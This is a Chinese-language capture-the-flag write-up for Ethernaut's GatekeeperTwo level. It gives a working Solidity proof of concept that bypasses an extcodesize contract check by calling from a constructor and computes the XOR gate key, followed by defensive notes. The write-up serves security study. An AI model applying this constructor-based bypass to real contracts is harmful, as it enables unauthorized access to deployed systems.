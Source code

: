 # 14. GateKeeperTwo

## 攻击分析
- ctf网址：https://ethernaut.openzeppelin.com/level/0x0C791D1923c738AC8c4ACFD0A60382eE5FF08a23
- 攻击类型：访问权限控制
- 目标：进入合约，将 entrant 更改成 deployer
- 要求：满足三个 modifier 条件

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

这个与 [GateKeeperOne](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/ethernaut/solution/13.GateKeeperOne.md) 类似，第二、三个 modifier不同。

2. gateTwo

在以太坊中，地址可以是外部用户地址（Externally Owned Accounts，缩写EOA），也可以是合约地址。有时候需要区分这两种地址，或者限制其他合约地址进行跨合约调用，以防止发生黑客攻击。
之前，通常使用 EVM 指令 extcodesize 来获取指定地址关联的合约代码的长度。如果返回的长度大于0，则表示该地址是一个合约地址；如果返回的长度为0，则表示该地址是一个外部用户地址，依此判断地址的类型，并采取相应的安全措施。

`assembly { x := extcodesize(caller()) }`中x解析出的是合约的代码长度，而caller()返回的是调用者的地址，x == 0 表示期望调用者不是合约，是EOA账户，这个要求与gateOne是相悖的，那么我们应该怎么做呢？

通过对`extcodesize`的学习，了解到通过合约constructor的调用来避开`extcodesize`的检查，我写了篇学习文章[《EVM 指令 extcodesize 学习》](https://github.com/Chocolatieee0929/ContractSafetyStudy/Security/BypassingExternalEOACheck.md)

3. gateThree
根据[SolidityBitwise](https://docs.soliditylang.org/en/v0.8.24/cheatsheet.html#order-of-precedence-of-operators) 可知 ^ 优先于相等运算符。要求传入的参数与 msg.sender 的哈希值进行异或运算，然后与 type(uint64).max 进行比较, `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) `这个很容易得到，对于GateKeeperTwo合约来说来说，msg.sender就是攻击合约的地址，那么我们需要考虑如何通过type(uint64).max 来反推_gateKey的值。

[^ Bitwise XOR](https://zh.wikipedia.org/wiki/%E5%BC%82%E6%88%96%E9%97%A8)可知，a ^ b = c, 即 a^c = b.
`bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max)` 解除gateKey

## Proof of Concept

根据以上分析，完整的 PoC 代码如下：
```
interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Solution {
    address contractAddress;

    constructor(address _contractAddress) {
      contractAddress = _contractAddress;
      unchecked{
          bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
          IGatekeeperTwo(contractAddress).enter(key);
      }
    }
}

contract GatekeeperTwoTest is BaseTest {

    Solution public solution;

    function setUp() public override {
        super.setUp();
        gatekeeperTwo = GatekeeperTwo(contractAddress);
    }

    function test_Attack() public {
        vm.startBroadcast(deployer);
        solution = new Solution(contractAddress);
        address entrant = address(uint160(uint256(vm.load(contractAddress,bytes32(uint256(0))))));
        assertEq(entrant, deployer);
        vm.stopBroadcast();
    }
}
```

## 防御措施

- 通过检查 extcodesize 可以确定地址是否为合约，这存在明显漏洞，如果 extcodesize > 0，则该地址为合约；但 extcodesize = 0，则该地址可能为 EOA，也可能是正在创建状态的合约。
- 如果想要检测调用者是否为合约，可以通过 (tx.origin == msg.sender) 来进行判断。当调用者为 EOA 时，tx.origin 和 msg.sender 相等；当它们不相等时，调用者为合约。
```solidity
function isContract(address account) public view returns (bool) {
    return (tx.origin != msg.sender);
}
```
- 真实攻击案例，[Fei Protocol Flashloan Vulnerability(May 14, 2021)](https://medium.com/immunefi/fei-protocol-flashloan-vulnerability-postmortem-7c5dc001affb)